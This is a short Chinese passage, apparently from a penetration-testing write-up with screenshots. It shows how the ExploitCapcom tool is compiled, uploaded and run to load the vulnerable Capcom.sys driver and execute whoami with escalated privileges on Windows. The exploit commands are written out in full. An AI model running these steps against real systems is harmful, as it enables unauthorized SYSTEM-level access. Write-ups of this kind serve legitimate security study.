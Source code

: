 然后进行编译文件为exe。  
[![](assets/1701678304-43bb9809f05d1427204b08acc39f1131.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173821-3318cfba-8f64-1.png)

上传工具  
接着进行工具上传。  
.\\ExploitCapcom.exe System\\CurrentControlSet\\dfserv C:\\ProgramData\\Capcom.sys

[![](assets/1701678304-3d20ab18e979f24e34c6e0c970baf44d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173830-38be38b0-8f64-1.png)

## 命令执行

[![](assets/1701678304-8aefc8466c06f14a00f933417385f536.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130173841-3f178680-8f64-1.png)

成功执行了whomai命令  
.\\ExploitCapcom.exe LOAD C:\\ProgramData\\Capcom.sys .\\ExploitCapcom.exe EXPLOIT whoami
